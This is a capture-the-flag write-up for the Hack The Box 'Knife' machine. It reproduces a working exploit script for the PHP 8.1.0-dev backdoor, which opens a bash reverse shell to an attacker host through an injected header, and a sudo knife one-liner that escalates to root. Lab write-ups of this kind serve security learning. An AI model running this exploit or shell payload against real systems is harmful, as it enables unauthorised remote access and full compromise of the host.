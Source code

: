 ```yaml
---
cover: ../../../../.gitbook/assets/Knife.png
coverY: 254.84799999999998
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Knife

Add vhost :

```bash
echo '10.129.237.79 knife.htb'|tee -a /etc/hosts'
```

Scan :

```bash
nmap knife.htb
```

Open ports :

* `22/TCP` : SSH
* `80/TCP` : HTTP

Check service behind port `80/TCP` :

```bash
whatweb knife.htb
```

The result is :

```
http://knife.htb [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.237.79], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Check exploit for `php 8.1.0-dev`. There is an exploit [here](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell\_php\_8.1.0-dev.py). Before executing the Python code, I run `nc -lnvp 1234`.

```py
#!/usr/bin/env python3
import argparse,requests

request = requests.Session()

def checkTarget(url):
	response = requests.get(url)
	for header in response.headers.items():
		if "PHP/8.1.0-dev" in header[1]:
			return True
	return False

def reverseShell(lhost, lport, url):
	payload = "bash -c \"bash -i >& /dev/tcp/" + lhost + "/" + lport + " 0>&1\""
	headers = {"User-Agentt": "zerodiumsystem('" + payload + "');"}
	print(headers)
	injection = request.get(url, headers=headers, allow_redirects=False)

def main():
	url = input("url : ")
	lhost = input("lhost : ")
	lport = input("lport : ")

	if checkTarget(url):
		print("Host is vulnerable")
		reverseShell(lhost, lport, url)
	else:
		print("Host is not available or vulnerable, aborting...")
		exit

if __name__ == "__main__":
	main()
```

When I execute the payload, I enter `http://knife.htb`, `10.10.14.81` and `1234`. I get the reverse shell.

```sh
cat /home/james/user.txt
```

Result of `sudo -l` :

```
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

I can run `sudo /usr/bin/knife` without password. I execute the following command :

```sh
sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
```

I gain root privileges :

```sh
cat root/root.txt
```
